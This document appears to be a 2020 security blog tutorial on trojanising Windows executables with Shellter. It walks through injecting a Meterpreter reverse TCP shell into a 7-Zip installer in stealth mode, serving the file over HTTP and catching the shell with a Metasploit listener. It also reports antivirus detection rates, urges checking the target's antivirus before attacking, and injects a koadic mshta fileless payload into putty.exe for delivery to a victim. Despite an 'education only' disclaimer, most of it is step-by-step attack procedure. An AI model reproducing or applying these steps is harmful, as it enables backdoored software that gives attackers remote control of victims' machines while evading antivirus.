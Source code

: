```yaml
---
title: "Inject malicious code into PE using Shellter"
date: "2020-04-11"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hey everyone. 

This is for research and education purpose only. If you do something bad, do with your own risk.

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).

Shellter Website: [https://www.shellterproject.com/](https://www.shellterproject.com/)

We gonna use this tool to inject our meterpreter reverse shell into a clean PE and we will start listening for the shell and execute the malware at the client side.

## Installation

Since Shellter is designed to be run on Windows operating systems, we will install wine

```
apt update
apt install shellter
dpkg --add-architecture i386 && apt-get update && apt-get install wine32 && apt install wine
```

## Download our clean PE file

In my case, I'm using 7zip installer.

```
wget https://www.7-zip.org/a/7z1900.exe
```

## Start shellter
```
shellter
```

![//pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic1.PNG)

## Select Mode and PE path

Shellter can run in either Auto or Manual mode. So, in our case here, we gonna run using Auto mode by selecting `A`. You may want use manual mode for advance option.

For PE target, type the path of your PE location and ENTER.

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic2.PNG)


## Enable stealth mode

Let's wait for a second..

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic3.PNG)

Shellter will then ask us if we want Stealth Mode which it will restore the PE execution flow after our payload has been executed. Choose 'Y' for yes. Then ENTER.

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic4.PNG)

## Choose payload 

It will then ask us to choose between using those displayed payload or our own custom payload. 

Type 'L' for listed payload and select index '1' for Meterpreter reverse TCP payload.

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic5.PNG)

## Set your IP and Port for the payload

```
SET LHOST: 192.168.83.129
SET LPORT: 4444
```

Shellter then will do his job for us.

## PE Injection done

Shellter will tell us that our injection is verified

![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic6.PNG)

## Transfering file

Transfer your malicious PE file to our Windows client. In my case, I'm using Python HTTP server.
```
python -m SimpleHTTPServer 8080
```

Go to our Windows client, navigate to our Kali Linux IP with port 8080 in web browser. Then, download the malicious PE file.

## Set up meterpreter listener

Setup our meterpreter listener to catch our reverse shell after execute the PE file

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.83.129
lhost => 192.168.83.129
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.83.129:4444
```

## Execute and pwned

Soon we download the PE...

 ![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic7.PNG)
 
Execute the malicious PE and take a look at our multi handler listener at our Kali Machine.

![//pic8](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic8.PNG)

As you can see above, the binary act normally and our payload is executed. Hooray.

![//pic9](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic9.PNG)

## Scan with VirusTotal

Scanning through VirusTotal results us 25/70 detection.

![//pic10](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic10.PNG)

As you can see, there is a lot of AV that doesnt detect this malware too.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic11.PNG)

So, make sure to gather information about our target client's AV first before attempt to attack.

## Extra: Inject fileless attack using WinExec

We can also inject fileless attack command line using WinExec payload.
But during the prompt of Payloads, we must choose (type) number '7' for WinExec stager.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic12.PNG)

While in your Kali machine, open koadic and run mshta payload. 

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic13.PNG)

Copy the fileless attack command and paste into Shellter with ``cmd /c`` infront of the command to tell windows start cmd with the command we specifed. In our case, we want to run mshta payload. 

If you guys want to execute calculator app. You may want to use ``cmd /c calc.exe`` to execute calc.exe.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic14.PNG)

After pressing 'enter' and wait about a few seconds, our payload now should be verified. We then can deliver the malicious app into victim's machine.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic15.PNG)

Once user execute our malicious putty.exe, their machine will get compromise.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic16.gif)

We're in their machine now. Let's run some cmd command using `exec_cmd` module in koadic.

![//pic11](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/shellter/pic17.PNG)

---

 **Thanks for reading**

